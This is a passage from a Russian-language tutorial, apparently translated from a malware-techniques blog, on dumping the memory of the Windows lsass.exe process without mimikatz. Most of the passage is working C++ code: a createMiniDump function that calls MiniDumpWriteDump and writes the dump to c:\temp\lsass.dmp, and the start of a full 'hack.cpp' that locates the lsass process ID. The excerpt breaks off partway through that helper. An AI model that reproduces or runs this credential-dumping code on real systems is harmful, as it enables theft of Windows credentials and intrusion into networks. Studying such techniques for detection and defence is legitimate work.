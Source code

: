 Затем создаем дамп:      

```cpp
// minidump lsass.exe
BOOL createMiniDump() {
  bool dumped = FALSE;
  int pid = findMyProc("lsass.exe");
  HANDLE ph = OpenProcess(PROCESS_VM_READ | PROCESS_QUERY_INFORMATION, 0, pid);
  HANDLE out = CreateFile((LPCTSTR)"c:\\temp\\lsass.dmp", GENERIC_ALL, 0,
  NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
  if (ph && out != INVALID_HANDLE_VALUE) {
    dumped = MiniDumpWriteDump(ph, pid, out, (MINIDUMP_TYPE)0x00000002, NULL, 
    NULL, NULL);
    printf(dumped ? "successfully dumped to lsaas.dmp :)\n" : 
    "failed to dump :(\n");
  } 
  return dumped; 
}
```

Итак, полный исходный код выглядит так `hack.cpp`:      

```cpp
/*
 * hack.cpp - Dump lsass without mimikatz. C++ implementation
 * @cocomelonc
 * https://cocomelonc.github.io/tutorial/2023/05/11/malware-tricks-28.html
*/
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <tlhelp32.h>
#include <dbghelp.h>
#pragma comment (lib, "dbghelp.lib")

int findMyProc(const char *procname) {

  HANDLE hSnapshot;
  PROCESSENTRY32 pe;
  int pid = 0;
  BOOL hResult;

  // snapshot of all processes in the system
  hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
  if (INVALID_HANDLE_VALUE == hSnapshot) return 0;

  // initializing size: needed for using Process32First
  pe.dwSize = sizeof(PROCESSENTRY32);

  // info about first process encountered in a system snapshot
  hResult = Process32First(hSnapshot, &pe);

  // retrieve information about the processes
  // and exit if unsuccessful
  while (hResult) {
    // if we find the process: return process ID
    if (strcmp(procname, pe.szExeFile) == 0) {
      pid = pe.th32ProcessID;
      break;
    }
    hResult = Process32Next(hSnapshot, &pe);
  }

  // closes an open handle (CreateToolhelp32Snapshot)
```